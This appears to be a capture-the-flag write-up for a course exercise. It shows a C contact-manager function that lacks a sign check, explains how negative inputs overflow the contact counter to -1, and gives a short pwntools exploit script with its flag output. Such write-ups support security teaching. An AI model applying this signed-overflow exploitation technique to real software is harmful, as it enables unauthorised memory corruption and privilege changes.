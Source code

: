 ```C++
void delete_many_contacts()
{
    printf("How many contacts would you like to delete? ");
    int delete_num = read_int();

    if (delete_num > num_contacts)
    {
        puts("]] You don't have that many friends.");
        return;
    }

    num_contacts -= delete_num;
    printf("]] Successfully deleted %d contacts.\n", delete_num);
}
```

There is absolutely no check that `delete_num` is positive! This means it can be negative, and so `num_contacts -= delete_num` can go as high as we want, then overflow to be negative. Choosing the values at or equal `INT_MIN` would work, and cause `num_contacts = -1`.

```bash
(gdb) p num_contacts
$5 = -1
```

Then we just `add_contact` with whatever value, modifying `is_premium_user`, and we can just input `999` to get the flag.

```Python
ADD = b'2'
DELA = b'4'

r.sendline(DELA)
r.sendline(b'-2147483647') # to MAX_INT
r.sendline(DELA)
r.sendline(b'-2147483648') # to -1

r.sendline(ADD)
# now &contact[-1] address is 0x602098
r.sendline(b'AAAAA') # name
r.sendline(b'AAAAA') # contact
# yay flag!
r.sendline(b'999')
```

```bash
$ python3 xpl.py
...
> cs2107{s1gn3d_v5_uns1gn3d_7h3r3_1s_a_d1ff3r3nc3}==========*****==========
1. List contacts
...
```